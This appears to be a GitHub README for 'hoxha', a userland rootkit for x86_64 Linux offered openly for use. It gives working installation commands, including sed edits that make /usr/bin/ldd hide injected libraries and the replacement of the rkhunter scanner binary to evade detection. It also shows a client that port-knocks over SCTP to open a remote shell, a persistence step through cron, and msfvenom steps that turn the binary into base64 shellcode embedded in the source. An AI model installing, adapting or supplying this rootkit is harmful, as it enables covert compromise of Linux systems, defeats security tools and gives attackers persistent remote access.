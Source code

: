 # hoxha
A userland rootkit for x86_64 Linux that was meant to be everything <a href="https://github.com/mephistolist/tito">Tito</a> was not. As Enver Hoxha was Tito's next door neighbor and completely opposed in ideology, there was no more a fitting name. Hoxha was also known for being very paranoid, so a lot more detection-evasion was used.   

<p align="center">
  <img src="https://upload.wikimedia.org/wikipedia/commons/f/fe/Enver_Hoxha_%28portret%29.jpg" width="50%" height="50%" />
</p>

You can download this like so:
```
git clone https://github.com/mephistolist/hoxha.git
```
If you are not on a Debian based system, you will want to run this to change to the name of your python binary:
```
sed -i 's/python3/python/g' hoxha/persistance/libexec.c; sed -i 's/python3/python/g' hoxha/persistance/libhide.c  
```
Considering SCTP is installed and loaded in the kernel, you can install the rootkit this:
```
cd hoxha && make install clean && cd persistance && [ -f ./patchelf ] && chmod +x ./patchelf && make install clean && sed -i 's/try_trace \"$RTLD\" \"$file\" || result=1/try_trace \"$RTLD\" \"$file\" | grep -vE \"libc.so.4|libc.so.5\" || result=1/g' /usr/bin/ldd && [ -f $(which rkhunter) ]  && cp ./rkhunter $(which rkhunter) 2>/dev/null
```
The client can be used with just the destionation ip address where this rootkit is installed:
```
# ./enver 127.0.0.1
[+] SCTP knock sequence sent.
[*] Connecting to SCTP shell at 127.0.0.1:5000...
[+] Connected. Type commands (type 'exit' to quit):
sctp-shell>
```
As SCTP ports are hard to close, I would suggest updating this with the paths to where you have the 'hoxha' folder and running this when exiting the shell:
```
/home/user/hoxha/persistance/patchelf --remove-needed /lib/x86_64-linux-gnu/libc.so.5 $(which killall) && killall -9 hoxha && systemctl restart cron && /home/user/hoxha/persistance/patchelf --add-needed /lib/x86_64-linux-gnu/libc.so.5 $(which killall)
```
This will ensure that only one port is left listening for future connections.

If you wish to edit or just build the shell from source you can do so by just typing 'make' the root directory. Using 'make install' will give a binary at /usr/bin/hoxha. You can then run this with msfvenom:
```
msfvenom -p linux/x64/exec CMD=/usr/bin/hoxha -f raw -o shellcode.bin -b "\x00\x0a\x0d"
```
Then you can base64 the raw data like so:
```
cat shellcode.bin | base64
```
Add that base64 encoded string to the hoxha/persistance/libexec.c file and re-run the Makefile in the persistance folder to apply your changes.
